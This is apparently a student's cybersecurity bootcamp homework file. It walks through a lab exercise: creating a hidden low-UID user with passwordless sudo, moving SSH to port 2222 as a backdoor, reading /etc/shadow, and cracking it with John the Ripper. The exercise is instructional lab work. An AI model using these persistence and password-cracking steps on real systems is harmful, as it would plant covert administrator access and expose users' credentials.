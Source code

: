 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser sysd`

2. Give your secret user a password: 
    - `sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 800 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 800 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sysd ALL=(ALL:ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l
    sudo grep less /etc/shadow
    sudo tail /etc/passwd
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    #Port 22  
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `su sysd`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh -p 2222 sysd@192.168.6.105`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo -s`
    - `sudo john /etc/shadow`
    

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

